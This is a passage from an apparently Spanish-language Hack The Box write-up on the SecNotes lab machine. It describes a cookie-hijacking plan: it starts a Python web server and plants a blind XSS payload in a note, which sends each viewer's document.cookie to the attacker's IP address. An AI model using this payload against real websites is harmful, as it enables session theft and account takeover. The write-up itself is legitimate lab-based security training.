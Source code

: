 ![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2022-02-28-SecNotes-Hack-The-Box/15.png){:class="blog-image" onclick="expandImage(this)"} 

Una vez comprobamos que tenemos la capacidad de visualizar nuestra propia cookie de sesión a través de ventanas emergentes (pop-ups), podemos empezar a esbozar una posible vía potencial para la intrusión.

Podemos intentar efectuar un `Cookie Hijacking`, ya que secuestrando la cookie de sesión de otro usuario, si este tiene su sesión abierta, podríamos 'logearnos' sin proporcionar credenciales, únicamente el valor de su cookie.

Adicionalmente, tenemos que pensar en una forma de obtener el valor de la cookie directamente en nuestro equipo de atacantes, ya que de momento, estas ventanas solo son visibles por los usuarios cuando están en su panel de inicio, además de que llaman bastante la atención. Para ello, haremos uso de un [Blind XSS](https://mateonitro550.github.io/https://mateonitro550.github.io/Cross-Site-Scripting-(XSS)).

Empezaremos por crear un servidor con `Python`, en el cual recibiremos las cookies de los usuarios cada que estos refresquen, o se encuentren en su panel de inicio.

```bash
sudo python3 -m http.server 80
```

A continuación, crearemos una nota con el siguiente mensaje:

```html
<script>document.write('<img src="http://nuestraDirecciónIP:80/cookie=' + document.cookie + '">')</script>
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2022-02-28-SecNotes-Hack-The-Box/16.png){:class="blog-image" onclick="expandImage(this)"} 
